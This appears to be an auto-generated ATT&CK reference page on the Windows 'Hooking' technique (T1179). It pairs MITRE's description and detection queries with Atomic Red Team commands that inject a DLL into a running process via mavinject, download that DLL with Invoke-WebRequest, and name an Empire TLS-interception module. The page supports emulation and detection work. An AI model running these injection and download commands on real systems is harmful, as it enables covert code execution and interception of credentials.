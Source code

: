 
# Hooking

## Description

### MITRE Description

> Windows processes often leverage application programming interface (API) functions to perform tasks that require reusable system resources. Windows API functions are typically stored in dynamic-link libraries (DLLs) as exported functions. 

Hooking involves redirecting calls to these functions and can be implemented via:

* **Hooks procedures**, which intercept and execute designated code in response to events such as messages, keystrokes, and mouse inputs. (Citation: Microsoft Hook Overview) (Citation: Endgame Process Injection July 2017)
* **Import address table (IAT) hooking**, which use modifications to a process’s IAT, where pointers to imported API functions are stored. (Citation: Endgame Process Injection July 2017) (Citation: Adlice Software IAT Hooks Oct 2014) (Citation: MWRInfoSecurity Dynamic Hooking 2015)
* **Inline hooking**, which overwrites the first bytes in an API function to redirect code flow. (Citation: Endgame Process Injection July 2017) (Citation: HighTech Bridge Inline Hooking Sept 2011) (Citation: MWRInfoSecurity Dynamic Hooking 2015)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), adversaries may use hooking to load and execute malicious code within the context of another process, masking the execution while also allowing access to the process's memory and possibly elevated privileges. Installing hooking mechanisms may also provide Persistence via continuous invocation when the functions are called through normal use.

Malicious hooking mechanisms may also capture API calls that include parameters that reveal user authentication credentials for Credential Access. (Citation: Microsoft TrojanSpy:Win32/Ursnif.gen!I Sept 2017)

Hooking is commonly utilized by [Rootkit](https://attack.mitre.org/techniques/T1014)s to conceal files, processes, Registry keys, and other objects in order to hide malware and associated behaviors. (Citation: Symantec Windows Rootkits)

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['Administrator', 'SYSTEM']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1179

## Potential Commands

```
mavinject $pid /INJECTRUNNING PathToAtomicsFolder\T1179\bin\T1179x64.dll
curl #{server_name}

mavinject $pid /INJECTRUNNING #{file_name}
curl https://www.example.com

powershell/collection/netripper
powershell/collection/netripper
```

## Commands Dataset

```
[{'command': 'mavinject $pid /INJECTRUNNING '
             'PathToAtomicsFolder\\T1179\\bin\\T1179x64.dll\n'
             'curl #{server_name}\n',
  'name': None,
  'source': 'atomics/T1179/T1179.yaml'},
 {'command': 'mavinject $pid /INJECTRUNNING #{file_name}\n'
             'curl https://www.example.com\n',
  'name': None,
  'source': 'atomics/T1179/T1179.yaml'},
 {'command': 'powershell/collection/netripper',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/collection/netripper',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'}]
```

## Potential Detections

```json
[{'data_source': ['4688', 'Process Execution']},
 {'data_source': ['Windows event logs']},
 {'data_source': ['Sysmon ID 7', 'DLL monitoring']},
 {'data_source': ['Sysmon - ID 7', 'Loaded DLLs']},
 {'data_source': ['API monitoring']},
 {'data_source': ['Binary file metadata']},
 {'data_source': ['Sysmon ID 7', 'DLL monitoring']},
 {'data_source': ['Sysmon - ID 7', 'Loaded DLLs']},
 {'data_source': ['4688', 'Process Execution']},
 {'data_source': ['Windows event logs']},
 {'data_source': ['API monitoring']},
 {'data_source': ['Binary file metadata']}]
```

## Potential Queries

```json
[{'name': 'Hooking',
  'product': 'Azure Sentinel',
  'query': 'Sysmon| where EventID == 1and (process_path contains '
           '"mavinject.exe"or process_command_line contains "/INJECTRUNNING")'}]
```

## Raw Dataset

```json
[{'Atomic Red Team Test - Hooking': {'atomic_tests': [{'auto_generated_guid': 'de1934ea-1fbf-425b-8795-65fb27dd7e33',
                                                       'dependencies': [{'description': 'T1179x64.dll '
                                                                                        'must '
                                                                                        'exist '
                                                                                        'on '
                                                                                        'disk '
                                                                                        'at '
                                                                                        'specified '
                                                                                        'location '
                                                                                        '(#{file_name})\n',
                                                                         'get_prereq_command': 'New-Item '
                                                                                               '-Type '
                                                                                               'Directory '
                                                                                               '(split-path '
                                                                                               '#{file_name}) '
                                                                                               '-ErrorAction '
                                                                                               'ignore '
                                                                                               '| '
                                                                                               'Out-Null\n'
                                                                                               'Invoke-WebRequest '
                                                                                               '"https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1179/bin/T1179x64.dll" '
                                                                                               '-OutFile '
                                                                                               '"#{file_name}"\n',
                                                                         'prereq_command': 'if '
                                                                                           '(Test-Path '
                                                                                           '#{file_name}) '
                                                                                           '{exit '
                                                                                           '0} '
                                                                                           'else '
                                                                                           '{exit '
                                                                                           '1}\n'}],
                                                       'dependency_executor_name': 'powershell',
                                                       'description': 'Hooks '
                                                                      'functions '
                                                                      'in '
                                                                      'PowerShell '
                                                                      'to read '
                                                                      'TLS '
                                                                      'Communications\n',
                                                       'executor': {'command': 'mavinject '
                                                                               '$pid '
                                                                               '/INJECTRUNNING '
                                                                               '#{file_name}\n'
                                                                               'curl '
                                                                               '#{server_name}\n',
                                                                    'elevation_required': True,
                                                                    'name': 'powershell'},
                                                       'input_arguments': {'file_name': {'default': 'PathToAtomicsFolder\\T1179\\bin\\T1179x64.dll',
                                                                                         'description': 'Dll '
                                                                                                        'To '
                                                                                                        'Inject',
                                                                                         'type': 'Path'},
                                                                           'server_name': {'default': 'https://www.example.com',
                                                                                           'description': 'TLS '
                                                                                                          'Server '
                                                                                                          'To '
                                                                                                          'Test '
                                                                                                          'Get '
                                                                                                          'Request',
                                                                                           'type': 'Url'}},
                                                       'name': 'Hook '
                                                               'PowerShell TLS '
                                                               'Encrypt/Decrypt '
                                                               'Messages',
                                                       'supported_platforms': ['windows']}],
                                     'attack_technique': 'T1179',
                                     'display_name': 'Hooking'}},
 {'Empire Module XLSX Sheet by dstepanic': {'ATT&CK Technique #1': 'T1179',
                                            'ATT&CK Technique #2': '',
                                            'Concatenate for Python Dictionary': '"powershell/collection/netripper":  '
                                                                                 '["T1179"],',
                                            'Empire Module': 'powershell/collection/netripper',
                                            'Technique': 'Hooking'}}]
```

# Tactics


* [Credential Access](../tactics/Credential-Access.md)

* [Persistence](../tactics/Persistence.md)
    
* [Privilege Escalation](../tactics/Privilege-Escalation.md)
    

# Mitigations

None

# Actors


* [PLATINUM](../actors/PLATINUM.md)

